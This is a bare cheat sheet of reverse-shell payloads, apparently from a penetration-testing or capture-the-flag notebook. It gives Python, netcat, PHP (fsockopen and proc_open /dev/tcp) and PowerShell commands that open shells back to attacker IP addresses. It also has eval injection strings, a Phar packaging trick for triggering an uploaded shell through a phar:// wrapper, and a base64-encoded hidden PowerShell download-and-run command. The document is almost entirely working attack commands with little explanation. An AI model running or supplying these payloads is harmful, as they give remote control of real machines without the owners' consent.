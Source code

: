 ```bash
os.system('nc 192.168.45.175 80 -e /bin/sh')

# When putting directly to input or inside of eval
__import__('os').system('bash')
' + __import__('os').popen('id').read() + '

# netcat reverse shell
nc -e /bin/sh 192.168.45.176 80

++++++++++++++++ PHP reverse shell ++++++++++++++++++++++++++++++++++++++++++++
# PHP reverse shell
php -r '$sock=fsockopen("192.168.45.176",80);exec("/bin/sh -i <&3 >&3 2>&3");'

# When we want to know what we should use
<?php phpinfo(); ?>

# PHP proc_open reverse shell
<?php
        $descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.19/443 0>&1'";
        $proc = proc_open($cmd, $descspec, $pipes);
?>

# Convert PHP file to Phar #################################################
0. get your reverse shell ready(example is using the one avobe - proc_open_rev.php)

1. test.php file(when we convert this, it will create an archive named "shell.phar"
<?php
$phar = new Phar('shell.phar'); 
$phar->startBuffering();
$phar->addFile('./proc_open_rev.php', 'proc.php');        // first create proc_open_rev.php reverse shell and then give it a name proc
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering(); ?>

2. convert php file
php --define phar.readonly=0 test.php

3. When you call phar file with phar wrapper
http://dev.siteisup.htb/?page=phar://uploads/ac5052094c12a761f080438aeb6c9634/proc.jpg/proc

++++++++++++++++++++++++++++++++++++++++++++ powershell ++++++++++++++++++++++++++++++++++++++++++++

# Powershell: w powercat
IEX(New-Object System.Net.Webclient).DownloadString("http://192.168.45.176/powercat.ps1");powercat -c 192.168.45.176 -p 4444 -e powershell
powershell.exe -nop -w hidden -c "IEX ((New-Object Net.WebClient).DownloadString(''http://192.168.45.202/powercat.ps1''))";powercat -c 192.168.45.202 -p 443 -e powershell

# when executing with base64 encoded
powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANwA2AC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAIgApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANwA2ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwACgA=

# Powershell: wo powercat
```